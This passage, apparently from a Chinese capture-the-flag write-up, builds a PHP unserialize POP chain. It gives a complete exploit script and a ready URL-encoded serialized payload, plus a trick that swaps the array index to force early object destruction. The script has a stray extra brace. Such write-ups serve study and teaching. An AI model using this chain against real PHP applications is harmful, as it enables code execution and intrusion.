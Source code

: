 在third::__get()里面怎么调用one::MeMeMe，这里使用数组调用类方法

使 $var=array('$name'=>[new one(),"MeMeMe"]); 就可以 $var[$name]=one::MeMeMe();

所以：

$a->object->filename->object=new third(['string'=>[new one(),'MeMeMe']]);

然后再exp里面添加上上面成员属性就可以了，这里可以看到前面那个回调函数也使用了这一方法

最终的exp：

```
<?php
class one {
    public $object;
    public $year_parm=array(0=>"Happy_func");
}
 
 
class second {
    public $filename;
}
 
 
class third {
    private $string;
 
 
     public function __construct($string) {
    $this->string = $string;
}
}}
 
 
$a=new one();
$a->object=new second();
$a->object->filename=new one();
$a->object->filename->object=new third(['string'=>[new one(),'MeMeMe']]);
 
$n=null;
$payload=array($a,$n);
 
echo urlencode(serialize($payload));
```

最后把i:1改成i:0就行了

```
a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BO%3A6%3A%22second%22%3A1%3A%7Bs%3A8%3A%22filename%22%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BO%3A5%3A%22third%22%3A1%3A%7Bs%3A13%3A%22%00third%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BN%3Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7Di%3A1%3Bs%3A6%3A%22MeMeMe%22%3B%7D%7D%7Ds%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7D%7Ds%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7Di%3A0%3BN%3B%7D
```

